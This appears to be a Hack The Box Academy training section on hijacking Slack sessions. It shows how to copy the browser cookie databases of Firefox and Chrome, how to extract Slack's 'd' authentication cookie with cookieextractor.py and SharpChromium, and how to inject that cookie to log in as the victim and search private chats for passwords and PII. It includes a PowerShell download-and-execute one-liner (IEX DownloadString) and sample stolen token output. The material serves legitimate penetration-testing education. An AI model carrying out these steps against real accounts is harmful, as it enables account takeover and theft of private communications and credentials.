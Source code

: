 # Slack hacking

## Abusing Cookies to Get Access to IM Clients

With the ability to instantaneously send messages between co-workers and teams, instant messaging (IM) applications like `Slack` and `Microsoft Teams`
 have become staples of modern office communications. These applications
 help in improving collaboration between co-workers and teams. If we 
compromise a user account and gain access to an IM Client, we can look 
for information in private chats and groups.

There are multiple options to gain access to an IM Client; one 
standard method is to use the user's credentials to get into the cloud 
version of the instant messaging application as the regular user would.

If the user is using any form of multi-factor authentication, or we 
can't get the user's plaintext credentials, we can try to steal the 
user's cookies to log in to the cloud-based client.

There are often tools that may help us automate the process, but as 
the cloud and applications constantly evolve, we may find these 
applications out of date, and we still need to find a way to gather 
information from the IM clients. Understanding how to abuse credentials,
 cookies, and tokens is often helpful in accessing web applications such
 as IM Clients.

Let's use `Slack` as an example. Multiple posts refer to how to abuse `Slack` such as [Abusing Slack for Offensive Operations](https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282) and [Phishing for Slack-tokens](https://thomfre.dev/post/2021/phishing-for-slack-tokens/). We can use them to understand better how Slack tokens and cookies work, but keep in mind that `Slack's` behavior may have changed since the release of those posts.

There's also a tool called [SlackExtract](https://github.com/clr2of8/SlackExtract) released in 2018, which was able to extract `Slack` messages. Their research discusses the cookie named `d`, which `Slack`
 uses to store the user's authentication token. If we can get our hands 
on that cookie, we will be able to authenticate as the user. Instead of 
using the tool, we will attempt to obtain the cookie from Firefox or a 
Chromium-based browser and authenticate as the user.

### Cookie Extraction from Firefox

Firefox saves the cookies in an SQLite database in a file named `cookies.sqlite`. This file is in each user's APPDATA directory `%APPDATA%\Mozilla\Firefox\Profiles\<RANDOM>.default-release`. There's a piece of the file that is random, and we can use a wildcard in PowerShell to copy the file content.

### Copy Firefox Cookies Database

Pillaging

```powershell
PS C:\htb> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

We can copy the file to our machine and use the Python script [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract cookies from the Firefox cookies.SQLite database.

### Extract Slack Cookie from Firefox Cookies Database

Pillaging

```
doshim@htb[/htb]$ python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d(201, '', 'd', 'xoxd-CJRafjAvR3UcF%2FXpCDOu6xEUVa3romzdAPiVoaqDHZW5A9oOpiHF0G749yFOSCedRQHi%2FldpLjiPQoz0OXAwS0%2FyqK5S8bw2Hz%2FlW1AbZQ%2Fz1zCBro6JA1sCdyBv7I3GSe1q5lZvDLBuUHb86C%2Bg067lGIW3e1XEm6J5Z23wmRjSmW9VERfce5KyGw%3D%3D', '.slack.com', '/', 1974391707, 1659379143849000, 1658439420528000, 1, 1, 0, 1, 1, 2)

```

Now that we have the cookie, we can use any browser extension to add 
the cookie to our browser. For this example, we will use Firefox and the
 extension [Cookie-Editor](https://cookie-editor.cgagnier.ca/).
 Make sure to install the extension by clicking the link, selecting your
 browser, and adding the extension. Once the extension is installed, you
 will see something like this:

![https://academy.hackthebox.com/storage/modules/67/cookie-editor-extension.jpg](https://academy.hackthebox.com/storage/modules/67/cookie-editor-extension.jpg)

Our target website is `slack.com`. Now that we have the 
cookie, we want to impersonate the user. Let's navigate to slack.com 
once the page loads, click on the icon for the Cookie-Editor extension, 
and modify the value of the `d` cookie with the value you 
have from the cookieextractor.py script. Make sure to click the save 
icon (marked in red in the image below).

![https://academy.hackthebox.com/storage/modules/67/replace-cookie.jpg](https://academy.hackthebox.com/storage/modules/67/replace-cookie.jpg)

Once you have saved the cookie, you can refresh the page and see that you are logged in as the user.

![https://academy.hackthebox.com/storage/modules/67/cookie-access.jpg](https://academy.hackthebox.com/storage/modules/67/cookie-access.jpg)

Now we are logged in as the user and can click on `Launch Slack`.
 We may get a prompt for credentials or other types of authentication 
information; we can repeat the above process and replace the cookie `d` with the same value we used to gain access the first time on any website that asks us for information or credentials.

![https://academy.hackthebox.com/storage/modules/67/replace-cookie2.jpg](https://academy.hackthebox.com/storage/modules/67/replace-cookie2.jpg)

Once we complete this process for every website where we get a prompt, we need to refresh the browser, click on `Launch Slack` and use Slack in the browser.

After gaining access, we can use built-in functions to search for 
common words like passwords, credentials, PII, or any other information 
relevant to our assessment.

![https://academy.hackthebox.com/storage/modules/67/search-creds-slack.jpg](https://academy.hackthebox.com/storage/modules/67/search-creds-slack.jpg)

### Cookie Extraction from Chromium-based Browsers

The chromium-based browser also stores its cookies information in an 
SQLite database. The only difference is that the cookie value is 
encrypted with [Data Protection API (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). `DPAPI` is commonly used to encrypt data using information from the current user account or computer.

To get the cookie value, we'll need to perform a decryption routine 
from the session of the user we compromised. Thankfully, a tool [SharpChromium](https://github.com/djhohnstein/SharpChromium)
 does what we need. It connects to the current user SQLite cookie 
database, decrypts the cookie value, and presents the result in JSON 
format.

Let's use [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), a PowerShell script created by [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) which uses reflection to load SharpChromium.

### PowerShell Script - Invoke-SharpChromium

Pillaging

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

[X] Exception: Could not find file 'C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies'.

   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
   at System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
   at Utils.FileUtils.CreateTempDuplicateFile(String filePath)
   at SharpChromium.ChromiumCredentialManager.GetCookies()
   at SharpChromium.Program.extract data(String path, String browser)
[*] Finished Google Chrome extraction.

[*] Done.

```

We got an error because the cookie file path that contains the database is hardcoded in [SharpChromium](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47), and the current version of Chrome uses a different location.

We can modify the code of `SharpChromium` or copy the cookie file to where SharpChromium is looking.

`SharpChromium` is looking for a file in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies`, but the actual file is located in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies` with the following command we will copy the file to the location SharpChromium is expecting.

### Copy Cookies to SharpChromium Expected Location

Pillaging

```powershell
PS C:\htb> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"

```

We can now use Invoke-SharpChromium again to get a list of cookies in JSON format.

### Invoke-SharpChromium Cookies Extraction

Pillaging

```powershell
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "httpOnly": true,
    "name": "d",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": false,
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlqrv8rORsOoRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "httpOnly": true,
    "name": "d-s",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": true,
    "storeId": null,
    "value": "1659023172"
},

<SNIP>

]

[*] Finished Google Chrome extraction.

[*] Done.

```